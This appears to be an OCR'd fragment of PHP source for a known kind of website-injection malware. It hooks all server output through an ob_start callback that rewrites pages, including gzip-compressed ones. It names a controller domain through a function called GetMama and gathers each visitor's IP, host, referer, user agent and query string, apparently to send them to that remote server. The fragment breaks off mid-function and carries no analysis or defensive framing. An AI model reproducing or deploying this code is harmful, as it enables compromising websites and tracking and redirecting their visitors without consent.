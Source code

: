 			{ 
				$gz_e = true; 
			} 
			if ($gz_e) 
			{ 
				$tmpfname = tempnam("/tmp", "FOO"); 
				file_put_contents($tmpfname, $buf); 
				$zd = gzopen($tmpfname, "r"); 
				$contents = gzread($zd, 10000000); 
				$contents = mod_con($contents); 
				gzclose($zd);unlink($tmpfname); 
				$contents = gzencode($contents); 
			} 
			else 
			{ 
				$contents = mod_con($buf); 
			} 
			$len = strlen($contents); 
			header("Content-Length: ".$len); 
			return($contents); 
		} 
		function GetMama() 
		{ 
			$mother = "THE_COMPROMISED_DOMAIN"; 
			return $mother; 
		} 
		ob_start("opanki"); 
		function ahfudflfzdhfhs($pa) 
		{ 
			$mama = GetMama(); 
			$file = urlencode(__FILE__); 
			if (isset($_SERVER["HTTP_HOST"])) 
			{ 
				$host = $_SERVER["HTTP_HOST"]; 
			} 
			else 
			{ 
				$host = ""; 
			} 
			if (isset($_SERVER["REMOTE_ADDR"])) 
			{ 
				$ip = $_SERVER["REMOTE_ADDR"]; 
			} 
			else 
			{ 
				$ip = ""; 
			} 
			if (isset($_SERVER["HTTP_REFERER"])) 
			{ 
				$ref = urlencode($_SERVER["HTTP_REFERER"]); 
			} 
			else 
			{ 
				$ref = ""; 
			} 
			if (isset($_SERVER["HTTP_USER_AGENT"])) 
			{ 
				$ua = urlencode(strtolower($_SERVER["HTTP_USER_AGENT"])); 
			} else 
			{ 
				$ua = ""; 
			} 
			if (isset($_SERVER["QUERY_STRING"])) 
			{ 